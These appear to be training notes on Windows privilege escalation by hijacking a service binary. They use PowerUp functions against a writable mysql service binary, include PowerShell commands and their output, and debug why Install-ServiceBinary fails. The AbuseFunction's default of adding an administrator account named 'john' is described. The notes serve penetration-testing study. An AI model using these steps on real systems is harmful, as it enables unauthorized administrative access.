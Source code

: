 The output of Get-ModifiableServiceFile shows us that PowerUp identified mysql (among others) to be vulnerable
+ In addition, it provides information about the file path, the principal (_BUILTIN\Users_ group), and if we have permissions to restart the service (False)

PowerUp also provides us an _AbuseFunction_, which is a built-in function to replace the binary and, if we have sufficient permissions, restart it 
+ The default behavior is to create a new local user called _john_ with the password _Password123!_ and add it to the local _Administrators_ group
+ Because we don't have enough permissions to restart the service, we still need to reboot the machine

However, if we use the AbuseFunction **Install-ServiceBinary** with the service name, we receive an error:
```
PS C:\Users\dave> Install-ServiceBinary -Name 'mysql'

Service binary 'C:\xampp\mysql\bin\mysqld.exe --defaults-file=c:\xampp\mysql\bin\my.ini mysql' for service mysql not
modifiable by the current user.
At C:\Users\dave\PowerUp.ps1:2178 char:13
+             throw "Service binary '$($ServiceDetails.PathName)' for s ...
+             ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : OperationStopped: (Service binary ...e current user.:String) [], RuntimeException
    + FullyQualifiedErrorId : Service binary 'C:\xampp\mysql\bin\mysqld.exe --defaults-file=c:\xampp\mysql\bin\my.ini
   mysql' for service mysql not modifiable by the current user.
```

The output states that the service binary file is not modifiable by the current user
+ However, we already established that we have Full Access permissions on the service binary and demonstrated that we could replace the file manually

Reviewing the code of PowerUp and checking the outputs of the commands used in Get-ModifiableServiceFile, we identify that _Get-ModifiablePath_ is used to return modifiable paths for the current user
+ However, for us, it provides an empty result, leading to the above error

Let's examine this behavior in order to understand why AbuseFunction is throwing an error
+ First, we'll try the service binary path without any arguments for **Get-ModifiablePath**
+ Then, we'll add another argument to check if the function still provides the correct output. Finally, we'll use an argument with a path inside
```
PS C:\Users\dave> $ModifiableFiles = echo 'C:\xampp\mysql\bin\mysqld.exe' | Get-ModifiablePath -Literal

PS C:\Users\dave> $ModifiableFiles

ModifiablePath                IdentityReference Permissions
--------------                ----------------- -----------
C:\xampp\mysql\bin\mysqld.exe BUILTIN\Users     {WriteOwner, Delete, WriteAttributes, Synchronize...}

PS C:\Users\dave> $ModifiableFiles = echo 'C:\xampp\mysql\bin\mysqld.exe argument' | Get-ModifiablePath -Literal

PS C:\Users\dave> $ModifiableFiles

ModifiablePath     IdentityReference                Permissions
--------------     -----------------                -----------
C:\xampp\mysql\bin NT AUTHORITY\Authenticated Users {Delete, WriteAttributes, Synchronize, ReadControl...}
C:\xampp\mysql\bin NT AUTHORITY\Authenticated Users {Delete, GenericWrite, GenericExecute, GenericRead}

```